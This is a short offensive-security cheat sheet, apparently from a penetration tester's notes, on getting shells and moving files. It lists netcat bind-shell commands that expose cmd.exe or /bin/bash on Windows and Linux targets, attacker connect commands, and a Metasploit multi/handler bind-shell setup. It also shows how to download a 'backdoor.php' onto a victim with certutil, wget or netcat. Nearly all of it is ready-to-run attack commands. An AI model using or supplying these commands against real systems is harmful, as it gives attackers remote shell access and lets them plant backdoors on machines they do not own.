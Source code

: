 <pre class="language-sh"><code class="lang-sh"># Windows (target)
nc -nvlp &#x3C;target_port> -e cmd.exe 
nc.exe -nvlp &#x3C;target_port> -e cmd.exe

# Linux (target)
nc -nvlp &#x3C;target_port> -e /bin/bash

<strong># Linux (attacker)
</strong>nc -nv &#x3C;target_ip> &#x3C;target_port>

<strong># Windows (attacker)
</strong>nc.exe -nv &#x3C;target_ip> &#x3C;target_port>


# Linux Metasploit (attacker)
use multi/handler
set payload generic/shell_bind_tcp # Try also "linux/x64/shell_bind_tcp"
set rhost &#x3C;target_ip>
set lport &#x3C;target_port>
run
</code></pre>

## <mark style="color:purple;">Transfer files</mark>

```sh
# Start web server
python3 -m http.server 8080
python2 -m SimpleHTTPServer 8080
php -S 127.0.0.1:8080

# Download (HTTP Windows)
certutil -urlcache -f http://<host>/backdoor.php backdoor.php
# Download (HTTP Linux)
wget http://<host>/backdoor.php

# Netcat [useful when the victim cannot reach you, but you can]
nc -nvlp <target_port> > backdoor.php         # [recepient]
nc -w 3 <ip> <target_port> < backdoor.php     # [sender]

# With base64
cat file | base64 -w 0 # get base64 [output is a single continuous line]
echo <output_base64> | base64 -d > file # create file

# Tips
# 1 tip - Progress Indicator in netcat
pv backdoor.php | nc -w 3 <ip> <target_port> # [sender] (install pv)
# 2 tip - Check md5
md5sum backdoor.php

# Note: netcat "-n" option means no DNS (only IP)
```
